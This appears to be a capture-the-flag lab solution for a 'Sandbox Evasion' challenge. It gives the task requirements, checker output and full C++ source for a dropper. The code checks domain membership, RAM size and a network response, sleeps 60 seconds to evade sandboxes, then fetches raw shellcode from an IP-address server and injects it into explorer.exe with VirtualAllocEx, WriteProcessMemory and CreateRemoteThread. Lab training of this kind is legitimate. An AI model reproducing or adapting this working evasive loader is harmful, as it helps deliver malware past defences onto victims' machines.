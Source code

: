 # The Great Escape

Create your own Sandbox Evasion executable. In order to escape the Sandbox, you must implement the following techniques:

* Check and see if the device is joined to an Active Directory Domain
* Check if the system memory is greater than 1GB of RAM
* Implement an outbound HTTP request to 10.10.10.10
* Implement a 60-second sleep timer before your payload is retrieved from your web server

If your dropper meets these requirements specified above, the flag will be printed out to you.

_The Sandbox Evasion Techniques can fail. The program analyzes the binary to see if the checks are implemented. The outbound device may not have internet access - as long as the checks are implemented, the sandbox check should succeed._

```text
C:\Users\Administrator\Desktop\Materials\> .\SandboxChecker.exe C:\Users\TryHackMe\Materials\SandboxEvasion.exe
[+] Memory Check found!
[+] Network Check found!
[+] GeoFilter Check found!
[+] Sleep Check found!
Congratulations! Here is your flag:
```

### Notes

* If you have done it right, the "Sleep Check" will take approximately one minute to reveal the flag.
* If your DNS check has `if(dcNewName.find("\\"))` instead of `if(dcNewName.find("\\\\"))` then you may have 
difficulties with the sleep check.

## Code

```text
#include <iostream>
#include <Windows.h>
#include <tlhelp32.h>
#include <locale>
#include <string>
#include <urlmon.h>
#include <cstdio>
#pragma comment(lib, "urlmon.lib")
#include <lm.h>

#pragma comment(lib, "netapi32.lib")

using namespace std;


BOOL isDomainController() {
    LPCWSTR dcName;
    string dcNameComp;
    NetGetDCName(NULL, NULL, (LPBYTE*)&dcName);
    wstring ws(dcName);
    string dcNewName(ws.begin(), ws.end());
    cout << dcNewName;
    if(dcNewName.find("\\\\")) {
        return FALSE;
    }
    else {
        return TRUE;
    }
}


BOOL checkIP()
{
    const char* websiteURL = "https://10.10.10.10";
    IStream* stream;
    string s;
    char buff[35];
    unsigned long bytesRead;
    URLOpenBlockingStreamA(0, websiteURL, &stream, 0, 0);
    while (true) {
        stream->Read(buff, 35, &bytesRead);
        if (0U == bytesRead) {
            break;
        }
        s.append(buff, bytesRead);
    }
    if (s == "VICTIM_IP") {
        return TRUE;
    }
    else {
        return FALSE;
    }
}


BOOL memoryCheck() {
    MEMORYSTATUSEX statex;
    statex.dwLength = sizeof(statex);
    GlobalMemoryStatusEx(&statex);
    if (statex.ullTotalPhys / 1024 / 1024 / 1024 >= 1.00) {
        return TRUE;
    }
    else {
        return FALSE;
    }
}

int downloadAndExecute()
{
    HANDLE hProcess;
//Update the dwSize variable with your shellcode size. This should be approximately 510 bytes
    SIZE_T dwSize = 510;
    DWORD flAllocationType = MEM_COMMIT | MEM_RESERVE;
    DWORD flProtect = PAGE_EXECUTE_READWRITE;
    LPVOID memAddr;
    SIZE_T bytesOut;
//Update the OpenProcess Windows API with your Explorer.exe Process ID. This can be found in Task Manager
    hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, 4940);
//Update the c2URL with your IP Address and the specific URI where your raw shellcode is stored.
    const char* c2URL = "http://10.10.105.183:8000/index.raw";
    IStream* stream;
//Update the buff[] variable to include your shellcode size
    char buff[510];
    unsigned long bytesRead;
    string s;
    URLOpenBlockingStreamA(0, c2URL, &stream, 0, 0);
    while (true) {
//Update the Read file descriptor to include your shellcode size
        stream->Read(buff, 510, &bytesRead);
        if (0U == bytesRead) {
            break;
        }
        s.append(buff, bytesRead);
    }
    memAddr = VirtualAllocEx(hProcess, NULL, dwSize, flAllocationType, flProtect);

    WriteProcessMemory(hProcess, memAddr, buff, dwSize, &bytesOut);

    CreateRemoteThread(hProcess, NULL, dwSize, (LPTHREAD_START_ROUTINE)memAddr, 0, 0, 0);
    stream->Release();
    return 0;
}

int main() {
        Sleep(60000);
        if (isDomainController() == TRUE) {
                 if (memoryCheck() == TRUE) {
                          if (checkIP() == TRUE) {
        downloadAndExecute();
                          }
                 }
    }
    return 0;
}
```